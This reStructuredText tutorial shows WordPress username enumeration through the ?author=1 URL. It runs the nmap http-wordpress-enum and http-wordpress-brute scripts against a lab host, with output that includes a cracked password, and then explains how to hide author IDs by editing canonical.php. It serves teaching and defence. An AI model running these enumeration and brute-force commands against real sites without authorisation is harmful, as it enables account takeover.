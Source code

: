 ID hacking
==============

To see which ID is in the WordPress website, 
open the following URL but change the IP address with your own address or name: ::

    http:://172.17.0.7/?author=1

If you have not deleted the default admin ID created during the installation,
you will be redirected to the URL similar to this: ::

    http://172.17.0.7/authors/admin

This means that admin user of the system is ``admin``.
I do not know why WordPress provide this functionality.

You can enumerate the users list taking advantage of this weakness.
Tools such as wpscan, nmap and Burp Suite are available to do this [`attacking-wordpress <https://hackertarget.com/attacking-wordpress/>`_].
Here I will show you how to use nmap script for this attack.

Attack with nmap
-------------------

The command ``nmap -sV --script http-wordpress-enum --script-args limit=25 <target>`` 
shows user names as well as the open ports and its service/version info.
Default limit is 100. If you specify ``limit`` argument as 25, only 25 user IDs is searched.

::

    $ nmap -sV --script http-wordpress-enum --script-args limit=25 172.17.0.7

    Starting Nmap 6.40 ( http://nmap.org ) at 2015-06-01 15:57 AEST
    Nmap scan report for 172.17.0.7
    Host is up (0.00035s latency).
    Not shown: 998 closed ports
    PORT     STATE SERVICE VERSION
    80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
    | http-wordpress-enum: 
    | Username found: root
    |_Search stopped at ID #25. Increase the upper limit if necessary with 'http-wordpress-enum.limit'
    3306/tcp open  mysql   MySQL (unauthorized)

    Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 7.21 seconds
    
Moreover, brute force attack can be excuted to find the password of certain user or users.
The file of ``500-worst-passwords.txt`` used below is from `Skull Security <https://wiki.skullsecurity.org/Passwords>`_.
``users.txt`` just contains ``root`` and ``admin`` and you can add more from the result of user enumeration described above.

::

    $ nmap -sV --script http-wordpress-brute --script-args 'userdb=users.txt,passdb=500-worst-passwords.txt' 172.17.0.7 

    Starting Nmap 6.40 ( http://nmap.org ) at 2015-06-01 16:37 AEST
    Nmap scan report for 172.17.0.7
    Host is up (0.00040s latency).
    Not shown: 998 closed ports
    PORT     STATE SERVICE VERSION
    80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
    | http-wordpress-brute: 
    |   Accounts
    |     root:123456
    |     root:123456 - Valid credentials
    |   Statistics
    |_    Performed 506 guesses in 5 seconds, average tps: 101
    3306/tcp open  mysql   MySQL (unauthorized)

    Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 11.54 seconds

How to secure your WordPress ID from theft
----------------------------------------------

There are several ways to protect your ID:

- modify WordPress source code
- URL change with modwrite
- WordPress plugin

You can find a document in detail for this in 
`Question Defense <http://www.question-defense.com/2012/03/20/block-wordpress-user-enumeration-secure-wordpress-against-hacking>`_.

Here I just introduce the way of modifying the WordPress source code.
The file you must change is ``wp-includes/canonical.php``. Search for ``author`` and delete four lines similar to these ones: ::

        if ( ( false !== $author ) && $wpdb->get_var( $wpdb->prepare( "SELECT ID FROM $wpdb->posts WHERE $wpdb->posts.post_author = %d AND $wpdb->posts.post_status = 'publish' LIMIT 1", $author->ID ) ) ) {
            if ( $redirect_url = get_author_posts_url($author->ID, $author->user_nicename) )
                $redirect['query'] = remove_query_arg('author', $redirect['query']);
        }

.. note:: Even though you disabled the feature of ID exposure in the URL line of web browser, 
    the web page of ending with ``?author=1`` will show your ID in web page
    if you don't set up ``Display name`` in your profile. So you must configure it different with ID like this:

        .. image:: wp-id.png 



